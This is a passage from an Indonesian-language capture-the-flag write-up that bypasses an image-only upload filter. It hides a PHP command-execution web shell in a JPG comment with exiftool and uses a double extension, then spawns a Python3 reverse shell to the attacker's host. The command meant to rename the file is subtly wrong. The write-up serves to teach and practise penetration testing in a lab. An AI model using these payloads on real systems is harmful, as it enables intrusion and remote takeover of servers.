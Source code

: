 Sayangnya tempat file upload tadi cuma memperbolehkan file format JPG, JPEG, dan PNG (file-file gambar saja)

Terdapat banyak teknik dalam melewati pengecekan filetype dan menyelundupkan php code untuk di execute kemudian, seperti mengganti file header, menggunakan double extension, menambahkan byte magic number dan lain lain.

Pada kasus ini penulis akan menggunakan double extension dan menyelipkan payload php di bagian comment sebuah image file menggunakan tool bernama exiftool

```
exiftool -comment='<?php echo "<pre>";system($_GET['cmd']);?>' image.jpg

mv image.jpg > rcev2.php.jpg
```

Kenapa ada <pre> ? Biar lebih mudah dilihat output dari system nya, tidak tercampur2 dengan bytes dari jpg aslinya.

Upload rcev2.php.jpg

![Image](img/6.PNG)

Berhasil melakukan command ls, karena kita tahu RCE sudah berhasil dijalankan sekarang kita bisa menggunakan payload untuk membuat reverse shell kembali ke mesin lokal kita.

```
Python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Pada mesin ini penulis menyadari bahwa python2 tidak terinstall namun python3 tersedia

Berhasil mendapatkan reverse shell sebagai www-data

Setelah masuk, penulis melakukan enumerasi dan menemukan db.php
